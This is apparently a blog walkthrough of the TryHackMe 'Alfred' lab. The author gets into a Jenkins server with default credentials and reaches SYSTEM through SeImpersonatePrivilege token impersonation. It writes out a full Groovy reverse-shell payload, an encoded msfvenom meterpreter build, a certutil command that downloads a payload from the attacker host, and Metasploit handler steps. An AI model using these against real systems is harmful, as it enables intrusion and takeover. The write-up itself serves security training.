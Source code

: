 ```yaml
---
title: "Alfred Can't Stop this SeImpersonatePrivilege Vulnerability"
slug: alfred
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough will go over the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com). The objective behind this room is to exploit a misconfigured Jenkins server, obtain a reverse shell, and escalate privileges by leveraging a `SeImpersonatePrivilege` capability on a low-level user to obtain `NT AUTHORITY\SYSTEM` level privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301818828/a91e91f2-b0ac-457a-9228-8f0a8cb964d0.png){: .center-image }

### Step 1: Nmap

```bash
nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
```

```plaintext
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 17:33 MDT
Nmap scan report for alfred.thm (10.10.70.88)
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 7 SP1 (85%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.82 seconds
```

From this scan, we identified three open ports: 80, 3389, and 8080.

Port 80:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301860116/5d6ce597-3d72-4198-9f5e-77c5e2d5c3e4.png){: .center-image }

Port 8080:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301877545/ab705601-fa4e-412d-a000-b6373ce2c088.png){: .center-image }

### Step 2: Logging In

Trying some default login credentials, we discover that `admin:admin` works.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301895746/23b418b2-8179-4d4f-8d80-a5c67410a555.png){: .center-image }

### Step 3: Initial Foothold

Peeking around the system, we find an area where we can use `groovy` scripts. This will be our way into the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301912905/2623a425-11de-4301-a1f0-e7e5b203dddd.png){: .center-image }

We're using a groovy shell which can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy).

```php
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running this script inside the built-in `Script Console` calls our attack box and drops us into a shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301962193/86c8e757-befb-433a-aa36-d828d60ca937.png){: .center-image }

From here we find our `user.txt` flag located in `C:\Users\bruce\Desktop\` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301971137/3296a91b-9046-4d90-b0f7-9433675ce6af.jpeg){: .center-image }

### Step 4: Upgrade to Meterpreter Shell

First, we want to generate our payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.28.215 LPORT=1335 --format exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302000265/483a5146-9d7a-4d33-9db7-05cb9c09007f.webp){: .center-image }

From the victim, we're going to use `certutil` to download it.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302014664/102fb327-07be-4624-bbc0-74e1356897d5.webp){: .center-image }

Now we fire up `msfconsole` and set up our handler to catch the shell.

1. `use exploit/multi/handler`
    
2. `set payload windows/meterpreter/reverse_tcp`
    
3. `set LHOST <ATTACKER_IP>`
    
4. `set LPORT 1335`
    
5. `exploit`
    

Once the `payload.exe` is run on the victim machine, our handler will catch the shell and drop us in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302062807/2da5c976-0a1c-4fba-8435-640bc686b8b7.webp){: .center-image }

### Step 5: Privesc

Let's see what privileges we have currently by typing `whoami /priv`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302097741/26946bf1-f36b-4081-8b45-95fd0b1716ec.webp){: .center-image }

Nice. We have `SeImpersonatePrivilege`, let's exploit this vulnerability. We can achieve this by using the `incognito module` built into metasploit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302105355/5dcbd0e2-abf7-4162-830b-97854bada4d0.webp){: .center-image }

Next, we want to impersonate the Administrator's token. We can do this by typing the following command: `impersonate_token "BUILTIN\Administrators"`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302112792/09d85050-8f39-417b-a03b-ac2e11017caf.png){: .center-image }

Now let's migrate to a process with correct permissions. The safest bet is to always migrate to the `services.exe` service.

1. View processes: `ps`
    
2. Find the PID of `services.exe`
    
3. `migrate <PID>`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302134644/1c59dc1b-ca2f-4246-a8ef-847b6fc8eb70.webp){: .center-image }

Now that we're successfully `NT AUTHORITY\SYSTEM`, let's find our root flag and complete this room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302142088/b9e2bb98-1942-4e38-8663-e0c86e10076a.jpeg){: .center-image }

This room was a great introduction to AD pentesting. After going through this, I realized I have a long way ahead of me until I feel comfortable enough to sit down for the PNPT certification by TCM Security. I hope you enjoyed this walkthrough of the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com), and as always, Happy Hacking.